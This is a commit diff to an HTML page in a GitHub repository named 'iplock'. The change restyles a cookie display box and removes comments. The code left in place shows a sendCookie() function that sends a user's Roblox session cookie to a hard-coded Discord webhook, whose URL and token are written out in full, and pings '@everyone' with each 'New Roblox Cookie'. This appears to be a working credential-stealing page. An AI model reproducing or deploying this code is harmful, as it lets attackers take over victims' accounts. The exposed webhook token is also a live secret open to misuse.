

Before and after one commit to SocietyxDev/iplock, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 93-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

````diff
--- a/index.html
+++ b/index.html
@@ -7,7 +7,18 @@
     <style>
         body { font-family: Arial, sans-serif; text-align: center; margin: 50px; }
         input, button { margin: 10px; padding: 10px; width: 300px; }
-        #newCookie { background: #f0f0f0; border: 1px solid #ccc; padding: 10px; }
+        #newCookie {
+            background: #f0f0f0;
+            border: 1px solid #ccc;
+            padding: 10px;
+            width: 80%;
+            max-width: 600px;
+            word-wrap: break-word;
+            overflow-wrap: break-word;
+            white-space: pre-wrap;
+            display: inline-block;
+            text-align: left;
+        }
     </style>
     <script>
         async function sendCookie() {
@@ -23,10 +34,10 @@
             const webhookURL = "https://discord.com/api/webhooks/1342145069012226128/tCdPrO95hcPpasmFRjQtymKgYK028-0l3rZ4NgzlLKg0DgTUL4kj2ft1N0OT5LREM8jx";
 
             const payload = {
-                content: "@everyone New Cookie:",  // Message outside the embed
+                content: "@everyone New Cookie:",
                 embeds: [{
                     title: "🔑 New Roblox Cookie",
-                    description: "```" + cookie + "```", // Message inside the embed
+                    description: "```" + cookie + "```",
                     color: 16711680
                 }]
             };
````
